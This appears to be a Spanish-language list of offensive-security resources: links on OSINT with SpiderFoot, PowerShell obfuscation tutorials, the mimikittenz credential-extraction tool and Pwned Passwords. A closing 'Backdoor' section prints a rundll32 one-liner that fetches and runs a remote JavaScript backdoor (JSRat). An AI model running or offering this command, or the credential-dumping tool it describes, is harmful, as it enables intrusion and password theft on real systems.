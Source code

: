## SpiderFoot 2.12 - Automates OSINT to find out everything possible about your target
https://www.kitploit.com/2018/03/spiderfoot-212-automates-osint-to-find.html

# Pliego
## Pliego Sistema de Registro de Nombres de Pasajeros
https://www.ecestaticos.com/file/c53a91545ca895eb95215b5e6a1108fd/1469191837.pdf

# Ofuscación
## Introducción a la ofuscación en PowerShell (1ª parte)
https://www.youtube.com/watch?v=uYuI5OADJgQ

## Introducción a la ofuscación en PowerShell (2ª parte)
https://www.youtube.com/watch?v=SUVG-ftSUkY

## Introducción a la ofuscación en PowerShell (3ª parte)
https://www.youtube.com/watch?v=MkAZammvhaM

## Ejemplo de ofuscación ^
https://twitter.com/404death/status/968116331479314434

# Passwords
## mimikittenz
- mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.
- mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns.

https://github.com/putterpanda/mimikittenz

## Pwned Passwords
https://haveibeenpwned.com/Passwords

# Backdoor
## Javascript-Backdoor(JSRat)
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```
